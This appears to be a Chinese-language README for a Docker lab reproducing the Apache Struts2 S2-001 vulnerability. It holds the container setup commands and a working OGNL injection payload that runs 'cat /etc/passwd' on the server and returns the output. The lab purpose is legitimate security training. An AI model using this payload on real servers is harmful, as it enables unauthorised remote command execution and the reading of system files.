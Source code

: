 ## Struts2 S2-001 漏洞环境

### 漏洞信息

 * [S2-001 公告](http://struts.apache.org/docs/s2-001.html)
 

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-001
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-001
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Poc

命令执行(命令加参数：new java.lang.String[]{"cat","/etc/passwd"})

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](S2-001-1.png)

![](S2-001-2.png)
